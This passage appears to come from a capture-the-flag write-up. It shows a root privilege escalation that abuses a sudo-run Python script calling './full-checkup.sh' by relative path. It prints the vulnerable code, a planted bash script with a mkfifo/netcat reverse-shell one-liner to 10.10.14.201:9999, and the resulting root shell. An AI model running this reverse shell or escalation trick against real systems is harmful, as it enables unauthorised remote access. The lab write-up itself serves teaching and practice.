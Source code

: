 ```python
        
        except IndexError:
            print(f"Usage: {sys.argv[0]} docker-inspect <format> <container_name>")
            exit(1)
    
        except Exception as e:
            print('Something went wrong')
            exit(1)
    
    elif action == 'docker-ps':
        try:
            arg_list = ['docker', 'ps']
            print(run_command(arg_list)) 
        
        except:
            print('Something went wrong')
            exit(1)

    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

I was already aware of the `docker-ps` and `docker-inspect` actions, but didn't really investigate `full-checkup`. This one is interesting, because it calls a bash script `./full-checkup.sh`, but it does it with relative path, meaning i can create a script with the `full-checkup.sh` name in any writable directory and execute this script as root!

I am gonna change directory to `/tmp`, create a reverse shell script and save it as `full-checkup.sh`:

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.201 9999 >/tmp/f
```
I will also start a netcat listener on port 9999, and when i run the script:
```
sudo python3 /opt/scripts/system-checkup.py full-checkup
```

I get a connection back and i'm root:

```
❯ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.201] from (UNKNOWN) [10.10.11.208] 57330
# id
uid=0(root) gid=0(root) groups=0(root)
```

